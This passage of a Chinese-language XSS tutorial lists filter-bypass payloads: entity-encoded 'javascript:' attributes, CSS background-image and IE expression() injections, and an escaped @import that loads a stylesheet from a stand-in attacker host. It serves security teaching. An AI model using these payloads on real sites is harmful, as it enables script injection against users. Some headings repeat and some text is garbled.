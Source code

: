 <h3>9.2、方法二：进一步对标签属性进行编码</h3>
利用HTML支持ASCII码，将属性值转码为ASCII码的形式
&lt;img src="javascript:alert('xss');"&gt;
转码后
&lt;img src="javascrip&amp;#116&amp;#58alert(/xss/);"&gt;


### 9.2、方法二：进一步对标签属性进行编码

---


## 十、CSS样式表

> 
(一般就是利用它的style属性或者标签)
<h3>10.1、方法一：标签属性值利用</h3>
（浏览器的不同会导致CSS构造不一样）
&lt;div style="background-image:url(javascript:alert('XSS'))&gt;&lt;/div&gt;
&lt;style&gt;
body {background-image:url("javascript:alert('xss')")}
&lt;/style&gt;
<hr/>

<h3>10.2、方法二：IE 下利用 expression</h3>

CSS中使用expression只有IE才能识别。IE5及其以后版本支持在CSS中使用expression，用来把CSS属性和Javascript表达式关联起来，这里的CSS属性可以是元素固有的属性，也可以是自定义属性
eg：
&lt;div style="color: expression(alert('XSS'))"&gt;
过滤器会检查关键字 style（因此后面不能跟&lt;），再 expression：
构造：
&lt;div style="color: '&lt;'; color: expression(alert('XSS'))"&gt;
<hr/>
<h3>10.3、方法三：调用外部js</h3>
IE 浏览器支持在 CSS 中扩展 JavaScript，称为动态特性。
允许加载一个外部 CSS 样式表是存在安全风险的，导致可以在原始页面中执行js代码
&lt;style&gt;
@im\port url("http://attacker.org/malicious.css");
加\是为了绕过过滤器检测，但IE能识别
&lt;/style&gt;
malicious.css：
body {undefined
    color: expression(alert('XSS'));
}<br/><br/>  


<table><tbody>|标签|描述
|&lt;style&gt;|定义样式定义。
|&lt;link&gt;|定义资源引用。
|&lt;div&gt;|定义文档中的节或区域（块级）。
|&lt;span&gt;|定义文档中的行内的小块或区域。
|&lt;font&gt;|规定文本的字体、字体尺寸、字体颜色。不赞成使用。请使用样式。
|&lt;basefont&gt;|定义基准字体。不赞成使用。请使用样式。
|&lt;center&gt;|对文本进行水平居中。不赞成使用。请使用样式。
</tbody></table>
